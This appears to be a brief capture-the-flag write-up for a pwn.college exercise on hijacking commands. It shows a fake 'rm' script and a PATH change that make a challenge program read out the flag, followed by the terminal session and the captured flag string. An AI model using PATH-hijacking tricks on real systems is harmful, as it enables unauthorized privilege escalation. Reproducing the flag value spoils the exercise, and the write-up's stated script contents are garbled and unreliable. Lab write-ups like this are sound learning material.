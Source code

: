 # Hijacking Commands
Using the `nano` command I created a shell script called `rm` and inside that script I wrote commands like `read flag > /flag` and `echo $flag`. Then I updated the path so that when the `/challenge/run` command runs and looks for `rm` it will find this script and execute it to read the flag.
```bash
hacker@path~hijacking-commands:~$ nano rm
hacker@path~hijacking-commands:~$ chmod u+x rm
hacker@path~hijacking-commands:~$ PATH=/home/hacker
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{MhggM8QXOSC-AtkcetRaPWwdw8_.ddzNyUDL2AjN0czW}
```
Resource used was the pwn webiste.
